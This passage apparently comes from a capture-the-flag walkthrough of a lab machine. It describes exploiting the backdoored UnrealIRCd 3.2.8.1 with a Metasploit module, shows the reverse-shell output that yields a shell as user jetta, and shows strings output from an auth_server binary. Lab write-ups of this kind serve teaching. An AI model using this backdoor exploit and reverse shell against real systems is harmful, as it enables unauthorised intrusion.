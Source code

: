 ``` plain
|_  source ident: nmap
```

I googled the version and it contains a backdoor, and there is a Metasploit module for it. I fired up Metasploit and used against my localhost and port (remember the port forwarding), and got a shell as jetta! But if you want to know more about the backdoor and how to exploit it manually, read [this](http://blog.stalkr.net/2010/06/unrealircd-3281-backdoored.html).

``` plain
msf exploit(unreal_ircd_3281_backdoor) > run

[*] Started reverse handler on 192.168.80.130:5555 
[*] Connected to 127.0.0.1:4444...
    :relativity.localdomain NOTICE AUTH :*** Looking up your hostname...
[*] Sending backdoor command...
[*] Command shell session 1 opened (192.168.80.130:5555 -> 192.168.80.128:41061) at 2015-05-23 17:18:12 +0300

whoami
jetta
```

In jetta's home directory there is a directory named <code>auth_server</code> with a binary inside. I ran *strings* on it:

``` plain
strings /home/jetta/auth_server/auth_server
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
fflush
puts
putchar
printf
poll
stdout
system
__libc_start_main
GLIBC_2.2.5
l$ L
t$(L
|$0H
[+] Checking Certificates... 
done
[+] Contacting server, please wait... 
could not establish connection
invalid certificates
error: (12)
fortune -s | /usr/bin/cowsay
Starting Auth server..
;*3$"
```
